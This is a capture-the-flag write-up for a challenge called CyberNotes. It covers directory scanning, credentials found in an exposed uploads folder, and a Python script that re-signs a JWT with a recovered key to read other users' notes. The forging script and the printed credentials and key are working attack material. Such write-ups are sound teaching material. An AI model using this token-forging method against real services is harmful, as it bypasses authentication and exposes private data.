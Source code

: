 # CyberNotes Write-Up

## Tools Used
- **Kali Linux**
- **dirsearch**
- **Burp Suite**

---

## Step 1 - Reconnaissance

### Initial Observations
- Used the **Network** tab in the browser's **Inspect Element** to observe network activity of the original site `cyber-notes/live`.
- Attempted to download all files from the website using:
  ```bash
  wget -m [website URL]
  ```
  This was done to analyze the files for any hidden resources.

### Directory Scanning
- Switched to **dirsearch** and found some hidden directories such as:
  - `/#/register`
  - `/#/uploads`

### Vulnerability Discovery
- Observed the `index.js` file.
- Noticed a potential vulnerability involving the usage of **localStorage tokens** (most secure implementations use HttpOnly cookies).

---

## Step 2 - Attack Approach

### Exploitation
1. **Credentials Extraction**
   - Found a username and password in the `/uploads` directory:
     - **Username:** `D3aDs0ck`
     - **Password:** `bluM#_M@y_N3vr`

2. **JWT Token Exploitation**
   - Exploited the vulnerability of the **JWT token** by crafting a fake token.
   - Used **Burp Suite** to intercept the real token for further analysis.

---

## Step 3 - Decryption and Attack Code

### Code
```python
import jwt
import json
import requests

USERNAME = "D3aDs0ck"
PASSW = "bluM#_M@y_N3vr"
KEY = "H6jga21h1"

# URL of the target
URL = "https://cyber-notes.chalz.nitectf2024.live/"

print("USERNAME:", USERNAME)
print("PASSWORD:", PASSW)
print("JWT KEY:", KEY)
print("URL:", URL)

# Get fake JWT
data = json.dumps({
    "username": USERNAME,
    "password": PASSW
})
response = requests.request(
    "POST", URL + "api/login", data=data, headers={'Content-Type': 'application/json'})

fake_token = json.loads(response.text)["token"]
print("FAKE TOKEN:", fake_token)

# Decode fake JWT and sign it with the real key
decoded = jwt.decode(fake_token, options={"verify_signature": False})
new_token = jwt.encode(decoded, KEY, algorithm='HS256')
print("REAL TOKEN:", new_token)

# Use the real token to fetch notes
response = requests.request("GET", URL + "api/notes",
                            headers={'Authorization': "Bearer " + new_token})

print(response.text)
```

---
